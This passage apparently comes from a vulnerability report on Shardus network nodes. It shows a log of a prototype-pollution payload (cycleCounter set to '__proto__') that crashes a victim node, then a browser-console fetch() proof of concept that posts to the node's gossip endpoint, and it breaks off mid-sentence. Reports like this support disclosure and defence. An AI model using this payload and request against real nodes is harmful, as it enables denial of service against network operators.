Then it keeps encountering exceptions at runtime and logging them in the same file.

More details about the payload the victim received and the chain of crashes can be read at `./instances/shardus-instance-9003/logs/main.log`:
```
[2024-07-24T17:56:22.801] [DEBUG] main - Timestamp receipt generated for txId error: {"cycleCounter":"__proto__","cycleMarker":"error","sign":{"owner":"be55xb5bf7","sig":"6dfbxxdad07"},"timestamp":1721861782798,"txId":"error"}
[2024-07-24T17:56:23.475] [INFO] main - exitUncleanly: logFatalAndExit
[2024-07-24T17:56:23.475] [INFO] main - Stopping reporter...
[2024-07-24T17:56:23.476] [INFO] main - Stopping statistics reporting...
[2024-07-24T17:56:23.476] [INFO] main - Stopping POW generators...
[2024-07-24T17:56:23.478] [INFO] main - exitUncleanly: logFatalAndExit
[2024-07-24T17:56:24.472] [INFO] main - exitUncleanly: logFatalAndExit
[2024-07-24T17:56:25.473] [INFO] main - exitUncleanly: logFatalAndExit
[2024-07-24T17:56:26.472] [INFO] main - exitUncleanly: logFatalAndExit
[2024-07-24T17:56:27.473] [INFO] main - exitUncleanly: logFatalAndExit
[2024-07-24T17:56:28.474] [INFO] main - exitUncleanly: logFatalAndExit
[2024-07-24T17:56:29.475] [INFO] main - exitUncleanly: logFatalAndExit
...
```

## Prove of victim node rejecting all internal gossips

Go back to the developer's console and run the following:

```
fetch(`http://SERVER_IP:9002/infosec_gossipAnything/?route=get_tx_timestamp&pk= PK_OF_VICTIM `, {
    method: 'POST',
    headers: {
        'Content-Type': 'application/json'
    },
    body: JSON.stringify({
        txId: "test",
        cycleCounter: "test",
        cycleMarker: "test"
    })
}).then(response => {
    if (!response.ok) {
        throw new Error('Network response was not ok');
    }
    return response.json();
}).then(data => {
    console.log('Success:', data);
}).catch(error => {
    console.error('Error:', error);
})
```

This time, we are sending a normal payload, without exploiting the prototype pollution in any way. The payload we are sending is `{ txId: "test", cycleCounter: "test", cycleMarker: "test" }`

After sending, quickly go to `./instances/shardus-instance-9003/logs/p2p.log` and you will see the following error being logged:
